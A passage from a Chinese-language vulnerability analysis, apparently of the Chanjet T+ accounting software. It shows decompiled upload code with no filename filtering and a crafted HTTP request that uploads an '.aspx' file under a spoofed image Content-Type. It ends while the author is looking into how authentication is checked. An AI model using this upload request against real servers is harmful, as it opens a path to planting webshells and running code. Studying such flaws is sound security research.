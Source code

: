     				"'); parent.document.getElementById('myimg').src='",  
    				text,  
    				"';</script>"  
    			}));  
    			return;  
    		}  
    		string fileName = this.File1.PostedFile.FileName;  
    		string text2 = fileName.Substring(fileName.LastIndexOf('\\') + 1);  
    		this.File1.PostedFile.SaveAs(base.Server.MapPath(".") + "\\images\\" + text2);  
    		string text3 = base.Server.MapPath(".") + "\\images\\" + text2;  
    		this.ViewState["fileName"] = "images/" + text2;  
    		TPContext.Current.Session["ImageName"] = text3;  
    	}  
    }  
    

  

代码大概的意思为。上传的文件不大于2M 然后判断Content-Type 是否为其中一个类型。然后写入到images 目录中。文件名没有任何过滤。

构造一下上传代码

    
    
    POST /tplus/SM/SetupAccount/Upload.aspx HTTP/1.1  
    Host: 192.168.1.77:8080  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8  
    Cookie: ASP.NET_SessionId=gvigofzulthd2v1i2q5zndtf; Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1662302093; Hm_lpvt_fd4ca40261bc424e2d120b806d985a14=1662302093  
    Connection: close  
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Length: 182  
      
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt  
    Content-Disposition: form-data; name="File1";filename="11.aspx"  
    Content-Type: image/jpeg  
      
    1  
    ------WebKitFormBoundarywwk2ReqGTj7lNYlt--  
    

  

![](https://gitee.com/fuli009/images/raw/master/public/20220923140127.png)

  

发现需要登陆。那么翻看一下代码好像没有找到鉴权的地方。那么找一下他的引用文件

![](https://gitee.com/fuli009/images/raw/master/public/20220923140125.png)

  
